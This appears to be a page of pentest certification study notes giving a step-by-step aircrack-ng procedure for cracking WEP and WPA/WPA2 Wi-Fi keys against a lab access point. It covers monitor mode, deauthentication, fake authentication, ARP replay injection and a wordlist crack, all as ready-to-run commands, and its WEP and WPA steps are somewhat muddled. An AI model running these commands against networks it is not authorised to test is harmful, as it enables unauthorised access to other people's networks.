 ## Cracking WPA/WPA2 PSK

**The steps to crack WPA/WPA2 and WEP are the same. The only difference is using of a wordlist in the former**
````
aircrack-ng -w /path/to/wordlist.txt -b D8:0D:17:81:3F:CC replay_arp-0709-181038.cap
````

## Perform the following steps prior to step 1, if you're wireless card is giving you issues.

* Stop network manager
````
service network-manager stop
````

* When putting a card into monitor mode, it will automatically check for interfering processes. It can also be done manually by running the following command:
````
airmon-ng check
````

* Kill interferring processes
````
airmon-ng check kill **OR** airmon-ng check kill-all
````

* If started already...disable Monitor Mode
````
airmon-ng stop wlan0mo
````

* Restart Network Manager(s)
````
service network-manager start
````

**1) List All Available Wireless Interace Cards**

* You can do this with two commands: iwconfig or airmon-ng

![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/list_interfaces.png)

**2) Enable monitor mode on the interace found in step 1**

* Identify the channel of the target AP, 
````
airmon-ng start wlan0
sudo airodump-ng wlan0mon <- Identify AP channel here
sudo airodump-ng stop wlan0mon
sudo airmon-ng start wlan0 3
````

![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/monitor_mode_channel.png.png)

**3) Identify the channel your WEP network is operating on**

* execute iwconfig or airmon-ng to get your wireless interface
* use either BSSID or ESSID.
* The channel number will be listed under the "CH" column.
````
airodump-ng wlan0mon
````
![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/identify_channel.png)

* Take not of the the MAC, channel and network name of the target AP.
* Test wireless device packet injection.
* If you receive "Injection is working! proceed, else, ensure you're using a compatible wireless card.

**4) Test Packet Injection**
````
aireplay-ng -9 -e <network name> -a <target MAC> <interface>
````

**5) Capture hnadshake from the AP**
* If you cannot capture a handshake, force a client to reconnect using aireplay-ng -deauth
* When a handshake is captured, look in the upper right corner for "WPA handshake"...
````
airodump-ng -c 3 --bssid D8:0D:17:81:3F:CC -w target_iphone wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/handshake.png)


![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/capture_iv.png)

**6) Initiate Fake Authentication**
* Do this step concurrently with the step 5 to capture all the data you have replayed.
````
sudo aireplay-ng -1 0 -e lab -a D8:0D:17:81:3F:CC -h 84:AD:8D:EC:7E:8D wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/fake_authentication.png)

**7) Start aireplay in ARP request replay mode**
* When the program identifies an ARP request, it will immediately strat to inject it.
````
aireplay-ng -3 -b D8:0D:17:81:3F:CC -h 84:AD:8D:EC:7E:8D wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/injection.png)


**8) Crack the WEP key**
````
aircrack-ng -w /path/to/some/wordlist.txt -b D8:0D:17:81:3F:CC replay_arp-0709-181038.cap
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/cracking_attempt.png)
